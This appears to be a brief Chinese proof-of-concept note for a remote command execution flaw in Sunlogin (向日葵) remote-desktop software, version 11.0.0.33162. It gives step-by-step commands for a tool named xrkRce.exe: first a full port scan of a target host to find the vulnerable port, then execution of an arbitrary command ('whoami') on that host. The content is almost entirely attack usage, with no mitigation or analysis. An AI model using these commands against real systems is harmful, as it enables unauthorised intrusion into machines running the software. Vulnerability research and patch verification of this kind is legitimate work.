

向日葵版本：Ver.11.0.0.33162

验证过程（windows11）：

1. 本机安装向日葵后启动软件；  
 
2. CMD输入命令扫描端口，判断是否可能存在Rce；（ xrkRce.exe -h 192.168.99.38 -t scan -p 1-65535 ）
 
3. 可能存在会返回端口，如：60029；
 
4. CMD输入命令（xrkRce.exe -h 192.168.99.38 -t rce -p 60029 -c "whoami"），发现命令执行。
 

